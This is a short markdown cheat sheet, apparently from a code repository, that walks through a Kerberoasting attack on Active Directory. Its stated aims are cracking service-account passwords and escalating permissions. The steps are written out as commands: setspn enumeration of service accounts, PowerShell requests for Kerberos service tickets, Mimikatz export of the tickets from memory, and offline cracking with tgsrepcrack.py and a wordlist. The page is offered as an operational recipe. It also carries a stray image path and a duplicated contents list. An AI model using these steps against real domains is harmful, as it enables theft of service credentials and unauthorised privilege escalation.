 ## Table of Contents

  - [Table of Contents](#Table\of\Contents)
      - [Quick Overview](#Quick\Overview)

## Table of Contents

      - [Quick Overview](#Quick\Overview)

Objective:
- Crack passwords for remote service accounts
- Rewrite tickets to escalate permissions

#### Quick Overview
1. Find Service Accounts
```powershell
setspn -T DOMAINNAME -F -Q */*
```
2. Identify user accounts; ignore computer accounts
3. Request tickets:
```powershell
PS C:\> Add-Type -AssemblyName System.IdentityModel
PS C:\> New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "HTTP/DOMAIN"
```
4. Extract tickets from RAM with Mimikatz
```powershell
mimkatz # kerberos::list /export
```
5. Crack offline remote service credentials
6. `tgsrepcrack.py` wordlist.txt \*.kirbi



